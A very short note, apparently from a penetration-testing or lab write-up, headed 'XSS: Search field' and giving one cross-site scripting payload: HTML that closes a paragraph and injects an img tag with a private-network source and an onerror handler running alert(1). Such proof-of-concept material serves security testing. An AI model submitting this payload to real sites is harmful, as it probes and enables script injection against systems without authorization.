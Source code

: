 
XSS: Search field  
```html
</p><img src="http://192.168.119.166:8080/yeah.jpg" onerror="alert(1);">
```
